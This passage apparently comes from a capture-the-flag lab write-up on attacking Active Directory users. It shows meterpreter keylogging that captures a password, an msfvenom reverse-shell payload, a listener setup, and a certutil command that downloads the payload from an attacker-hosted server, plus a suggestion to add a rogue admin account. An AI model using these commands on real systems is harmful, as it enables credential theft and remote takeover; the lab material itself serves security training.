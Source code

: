 Now we are ready to start our keylogger:

```shell-session
meterpreter\>keyscan_start
Starting the keystroke sniffer ...
```

Now we have to be patient and wait. If we are lucky, we will capture some credentials! Give it a couple of minutes, and then run the following to dump captured keystrokes:

```shell-session
meterpreter\>keyscan_dump
Dumping captured keystrokes...
keep<CR>
<Shift>Passwordpasswordpassword<CR>
```

This is a straightforward example of targeting AD users. There is a lot more that can be done. It is essential to include user targeting in your exploitation methodology for AD. To answer the questions for this task you will need Keepass. It has been installed on the AttackBox for you so you can just search for and run the application. If you are using your own VM, on most Linux distros `sudo apt install keepassx` will work. Or you can download it from [here](https://keepass.info/download.html). Also make sure to use the meterpreter `download` command to download the Keepass database to you host. If you are using Kali, make sure that the kali user owns the database file before you open it, otherwise it might lock the database and give you incorrect results.

Although persistence will only be discussed in the next room, now might be a good time to create a local account on THMSERVER1 and grant it admin rights so you have a good foothold. Since this is not really needed for the rest of the tasks, if you want to do this, you will need to do a bit of research on this yourself.


## Practical

---

Let's first generate a meterpreter payload:

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=exploitad LPORT=4444 -f psh -o pwned.ps1
```

Once generated, we can do:

```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST exploitad; set LPORT 4444; exploit"
```

Now, we need to go into `evil-winrm` and download the file:

```
# First, set up a python server to host the file:

python3 -m http.server

# Then, on evil-winrm:

certutil.exe -urlcache -split -f http://OUR_IP:8000/pwned.ps1
```
